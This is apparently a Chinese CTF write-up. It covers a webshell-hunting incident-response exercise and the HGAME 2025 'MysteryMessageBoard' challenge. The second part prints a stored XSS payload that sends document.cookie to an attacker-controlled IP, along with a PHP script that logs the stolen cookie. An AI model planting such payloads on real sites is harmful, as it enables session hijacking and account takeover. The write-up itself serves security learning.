




#### 第一章 应急响应-webshell查杀

先把整个html文件夹全部下载下来。

根目录发现shell文件。修改时间为2023年，其余文件都为2021年，由此推断，23年的为黑客所操作。

用D盾扫面整个站，发现有如下木马。



打开gz.php，发现shell里的flag。


搜索一下马可以得到，是哥斯拉的shell，得到第二个flag。


第三道题提到隐藏shell。

观察到D盾扫出来的.Db\.Mysqli.php，得第三题flag。

最后一道题，D盾中剩下最后一个马，提交，完成。

## HGAME 2025

#### Level 69 MysteryMessageBoard

本题是一个留言板代码，有五个路由。

/路由是留言板。

/login是登录，观察代码发现有两个账户，一个是shallot，另一个是admin。

/admin访问会使admin账户模拟看板。

/flag读取flag，但会验证cookie是否为admin用户。

爆破密码，shallot密码为888888，admin无法爆破出密码。

观察代码发现有xss漏洞，留言板无限制，且admin会模拟看板。

使用服务器搭建一个网站，用于记录admin的session，php代码：

```php
<?php
$content = $_GET[1];
if(isset($content)){
        file_put_contents('./flag.txt',$content);
}else{
        echo 'no input';
}
?>
```

xss：`<script>window.open("http://xxx.xxx.xxx.xxx:8888/?1="+document.cookie)</script>`

在留言板植入xss漏洞，然后访问/admin，admin用户会将自己的cookie发送给我服务器。


然后将使用admin的cookie访问/flag得到flag.

